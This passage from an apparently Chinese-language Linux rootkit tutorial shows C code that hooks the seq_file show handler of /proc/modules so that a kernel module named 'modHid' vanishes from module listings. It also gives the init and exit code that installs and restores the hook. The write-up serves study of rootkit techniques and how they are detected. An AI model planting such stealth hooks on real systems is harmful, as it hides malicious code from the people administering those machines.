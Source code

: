可以看到，`file->private_data`被赋值为`seq_file`的指针。

下面看一下我们的假`show`函数。需要注意的是`/proc/modules`中每条记录长度不同，所以这里使用了一种更加灵活的方式计算每条记录大小，而不像隐藏端口那里使用一个定长的`TMPSZ`：

{% highlight c %}
#define SECRET_MODULE   "modHid"
int (*real_seq_show)(struct seq_file *seq, void *v);
int fake_seq_show(struct seq_file *seq, void *v) 
{
    int ret;
    size_t last_count, last_size;
    
    last_count = seq->count;
    ret = real_seq_show(seq, v); 

    last_size = seq->count - last_count;
    if(strnstr(seq->buf + seq->count - last_size, SECRET_MODULE, \
                last_size)){
        printk("Hiding: %s (in [/proc/modules])\n", SECRET_MODULE);
        seq->count -= last_size;
    }   

    return ret;
}
{% endhighlight %}

这里的思想是，每次先记录一下上次写到哪个地方，再写入一条记录，然后通过计算新的位置与旧位置的差来获得刚刚写入记录的长度，在这个长度中取寻找是否有`SECRET_MODULE`。

最后还是看一下入口出口函数：

{% highlight c %}
#define ROOT_PATH   "/sys/module"
#define PROC_PATH   "/proc/modules"
// in init
set_file_seq_op(show, PROC_PATH, fake_seq_show, real_seq_show);
if(!real_iterate){
    return -ENOENT;
}
// in exit
if(real_iterate){
    void *dummy;
    set_f_op(iterate, ROOT_PATH, real_iterate, dummy);
}
if(real_seq_show){
    void *dummy;
    set_file_seq_op(show, PROC_PATH, real_seq_show, dummy);
}
{% endhighlight %}

测试结果如下：

可以看到，完美地“消失”了：

![]({{ site.url }}/images/LinuxRootkits/linux-rkt-24.png)

最后，我们可以进行`rmmod modHid`操作顺利卸载模块，而不像 0000 实验中卸载出错。毕竟，这里并没有把模块从`kobject`层中删去，仅仅是在被要求显示时过滤掉了相应的信息而已。
